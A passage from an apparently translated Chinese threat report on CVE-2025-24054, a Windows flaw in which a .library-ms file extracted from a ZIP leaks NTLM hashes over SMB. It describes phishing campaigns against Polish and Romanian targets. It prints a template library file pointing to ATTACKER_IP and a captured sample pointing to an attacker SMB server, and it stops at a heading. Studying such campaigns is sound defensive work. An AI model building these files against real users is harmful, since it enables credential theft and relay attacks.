该漏洞的 CVE 编号为 CVE-2025-24054 ，并在所有最新的 Windows 版本中均被利用，当用户提取包含恶意 .library-ms 文件的 ZIP 压缩包时，会触发该漏洞。  
  
此事件将触发 Windows 资源管理器向远程服务器发起 SMB 身份验证请求，从而在无需任何用户交互的情况下泄露用户的 NTLM 哈希值。  
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\ATTACKER_IP\\SHARE_NAME</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>

```  
  
下图演示了用户的 NTLMV2-SSp 哈希通过 SMB 泄露到 IP 地址为 194.127.179[.]157 恶意 SMB 服务器的网络活动，一旦用户以最少的交互触发漏洞利用，客户端就会发起 SMB 请求，在处理 NTLMSSP_AUTH 消息时，客户端无意中将用户的 NTLMV2-SSp 泄露给恶意服务器。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jnH5ia4f9bZPn1tSoG4NjkRQc1Gh2RFibFmbuibLYYfjy0nFENn6ia0SYCICmcgpAaQ6c8IEwIWWSWpiaw/640?wx_fmt=png&from=appmsg "")  
  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jnH5ia4f9bZPn1tSoG4NjkRQrHzqqBqicicbb8nwjlK65Dbiaibic0ibGNHDUwyZFVuruxTZh5iaZq0eDsFjA/640?wx_fmt=png&from=appmsg "")  
  
  
用户的 NTLMV2-SSp 哈希值一旦泄露，攻击者可以通过暴力破解或中继攻击获取用户密码，如果被入侵的帐户拥有高权限且采取了不当的缓解措施（例如 SMB 签名和 NTLM 中继保护），则可能导致横向移动、提权，甚至整个域被入侵。  
  
微软最初为该漏洞分配的 CVE 编号为 CVE-2025-24071 ，后来更新为 CVE-2025-24054 。  
# 攻击活动  
  
在微软发布安全补丁八天后， Check Point Research 发现了第一起利用 CVE-2025-24054 的攻击活动，截至 3 月 25 日，已观察到大约另外 10 起攻击活动，其最终目标是从目标受害者那里获取 NTLMV2-SSp 哈希值。收集这些哈希值的 SMB 服务器分别托管在俄罗斯、保加利亚、荷兰、澳大利亚和土耳其。  
## NTLM 漏洞炸弹攻击活动  
  
该攻击活动似乎发生在 2025 年 3 月 20 日至 21 日左右，主要目标疑似为波兰和罗马尼亚政府及私人机构，该攻击活动通过电子邮件钓鱼链接瞄准受害者，其中包含一个从 Dropbox 下载的存档文件，一旦用户下载并提取存档内容，就会触发漏洞，泄露 NTLMV2-SSp 哈希值。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jnH5ia4f9bZPn1tSoG4NjkRQaa2J6n9c6OcWukzKW9XKzibqT8l62FO9Q2ZTT66m3fak1Tuib0tfHMicA/640?wx_fmt=png&from=appmsg "")  
  
### xd.library-ms  
  
从 Dropbox 下载的压缩包名为xd.zip，其中包含用于泄露 NTLMV2-SSp 哈希值的文件，这四个嵌入的文件会联系 IP 地址为 159.196.128[.]120 的恶意 SMB 服务器。  
  
一旦解压文件，就会触发 CVE-2025-24054， 即 NTLM 哈希泄露欺骗漏洞。  
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\159.196.128[.]120\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>

```  
### xd.url  
  